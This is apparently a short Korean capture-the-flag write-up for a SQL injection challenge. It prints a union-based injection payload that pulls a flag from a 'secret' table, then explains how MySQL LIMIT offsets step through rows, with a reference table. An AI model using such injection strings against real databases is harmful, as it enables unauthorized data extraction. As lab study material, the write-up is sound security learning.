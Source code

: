 ```sql
doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,flag FROM secret LIMIT 1,1-- 
```
> 휴 드디어 찾았다


### 문제에서 배운 것 정리 
SQL에서 `LIMIT`은 **쿼리 결과의 행 수를 제한**할 때 사용됩니다.  
MySQL 기준으로 `LIMIT a, b`는 다음을 의미합니다:

- `a` : **건너뛸 행(row)의 개수** (offset)
- `b` : **가져올 행(row)의 개수**

```
... FROM secret LIMIT 0,1--  → 첫 번째 레코드  
... FROM secret LIMIT 1,1--  → 두 번째 레코드  
... FROM secret LIMIT 2,1--  → 세 번째 레코드
```

| 구문                                | 용도                    | 예시                  |
| --------------------------------- | --------------------- | ------------------- |
| `LIMIT 0,5`                       | 처음부터 5개 행 출력          | 목록 출력용              |
| `ORDER BY id DESC LIMIT 1`        | 가장 최근 행 출력            | 마지막 레코드 접근          |
| `LIMIT n`                         | 상위 n개 행만 출력           | `LIMIT 10` → 상위 10개 |
| `OFFSET n`                        | (PostgreSQL에서) n개 건너뜀 | `OFFSET 3 LIMIT 1`  |
| `WHERE id = (SELECT MIN(id) ...)` | 첫 번째 값 찾기             | 단일 행 정렬 불가능할 때      |



